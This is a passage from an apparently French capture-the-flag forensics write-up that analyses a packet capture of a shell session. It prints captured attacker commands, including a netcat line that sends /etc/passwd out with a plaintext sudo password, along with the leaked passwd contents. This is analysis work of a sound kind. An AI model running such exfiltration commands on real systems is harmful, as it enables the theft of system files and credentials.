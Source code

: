 recherche : `tcp.stream eq 0`

On regarde la première requête et `Suivre > flux TCP`.

```shell
jtomato@ns01:~$ echo "*umR@Q%4V&RC" | sudo -S nc -nvlp 9999 < /etc/passwd
echo "*umR@Q%4V&RC" | sudo -S nc -nvlp 9999 < /etc/passwd
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 192.168.2.244 34972 received!
```

**Réponse : /etc/passwd**

## 14 - File shell.pcapng - What password is used to elevate the shell ?

recherche : `tcp.stream eq 0`

On regarde la première requête et `Suivre > flux TCP`.

```shell
jtomato@ns01:~$ echo "*umR@Q%4V&RC" | sudo -S apt update
echo "*umR@Q%4V&RC" | sudo -S apt update
```

**Réponse : *umR@Q%4V&RC**

## 15 - File shell.pcapng - What is the OS version of the target system ?

recherche : `tcp.stream eq 0`

On regarde la première requête et `Suivre > flux TCP`.

```shell
jtomato@ns01:~$ echo "*umR@Q%4V&RC" | sudo -S apt update
echo "*umR@Q%4V&RC" | sudo -S apt update

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Hit:1 http://us.archive.ubuntu.com/ubuntu bionic InRelease
Hit:2 http://us.archive.ubuntu.com/ubuntu bionic-updates InRelease
Hit:3 http://us.archive.ubuntu.com/ubuntu bionic-backports InRelease
Hit:4 http://us.archive.ubuntu.com/ubuntu bionic-security InRelease
```

**Réponse : bionic**

## 16 - File shell.pcapng - How many users are on the target system ?

recherche : `tcp`

Dans le dernier flux (`tcp.stream eq 6`), on voit le contenu du `/etc/passwd`

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```